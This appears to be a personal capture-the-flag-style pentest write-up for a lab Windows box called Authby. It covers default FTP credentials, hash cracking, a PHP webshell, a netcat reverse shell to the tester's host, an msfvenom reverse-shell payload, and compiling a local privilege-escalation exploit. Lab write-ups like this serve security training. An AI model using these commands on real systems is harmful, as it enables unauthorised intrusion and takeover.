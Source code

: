 # Authby

## Pentest Report for Authby

### Basic Information

* **Box name**: Authby
* **IP address**: 192.168.169.46
* **Operating system**: Windows
* **Date**: 3/24/2025

### Pentest Phases

#### 1. Reconnaissance

* Initial Nmap scan: `nmap -sC -sV -oA initial 192.168.169.46`
* Full scan: `nmap -p- --min-rate 10000 -oA full 192.168.169.46`
* Service version verification

<figure><img src="../../../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

#### 2. Enumeration

* Enumeration of users, groups, and other relevant information
* Search for known vulnerabilities for identified services

Ok so in our scan we got some interesting stuff, we're going to try and abuse one of the FTP services:

Ftp anonymous connection is enabled -> no interesting informations

I am able to connect as admin:

<figure><img src="../../../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

I download every files in the admin share and discover a hash:

<figure><img src="../../../.gitbook/assets/image (304).png" alt=""><figcaption><p>offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0</p></figcaption></figure>

#### 3. Exploitation

* Exploitation attempts of discovered vulnerabilities
* Initial access to the target

it's hashcat mode 1600:

<figure><img src="../../../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

another thing to note is when i connect with admin:admin i am able to upload php shell:

```
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||2064|)
150 File status okay; about to open data connection.
100% |*************************************************|  5496       23.29 MiB/s    00:00 ETA
226 Closing data connection.
5496 bytes sent in 00:00 (68.09 KiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||2065|)
150 Opening connection for /bin/ls.
total 9
-r--r--r--   1 root     root         5496 Mar 24 22:34 shell.php
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp> 
```

but the php shell does not work so i upload nc exe and a php webshell and manage to get a webshell ->

```
http://192.168.169.46:242/webshell.php?cmd=whoami
```

So for my reverse shell i set up a listener and enter:

```
http://192.168.169.46:242/webshell.php?cmd=nc.exe+192.168.45.228+80+-e+cmd
```

and get my reverse shell

#### 4. Post-Exploitation

* Access persistence
* Privilege escalation
* Sensitive data extraction

After a quick whoami /priv i see that i have impersonate privileges so i start exploitation ->

God potato does not work:

```
.\GodPotato-NET4.exe -cmd "nc.exe -e cmd 192.168.45.228 9876"
```

I already had this issue so i'll use printspoofer:

and i got the error:

```
This version of C:\wamp\www\PrintSpoofer.exe is not compatible with the version of Windows you're running.
```

so i try juicy potato and start by uploading the executable and a shell.exe that i crafted:

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.45.228 -f exe -o shell.exe
```

after being very anoyed i tried another path, i looked at the os version:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

and found something that seemed to suit the situation:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

I had problems compiling the exploit:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

* The default `gcc` compiler on Linux does **not** include Windows headers by default.
* The missing file suggests that i'm trying to compile a Windows-based program on a Linux system without the necessary Windows libraries.

So i need to :\


* **Windows-compatible toolchain** like `i686-w64-mingw32-gcc`, which includes Windows headers.
* Alternatively, install Windows headers for Linux (`mingw-w64`)

And manage to compile the exploit:

```
i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
```

and i just run the exploit and manage to get my shell:

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

#### 5. Cleanup

* Removal of artifacts from the target
* Documentation of vulnerabilities and exploitation methods
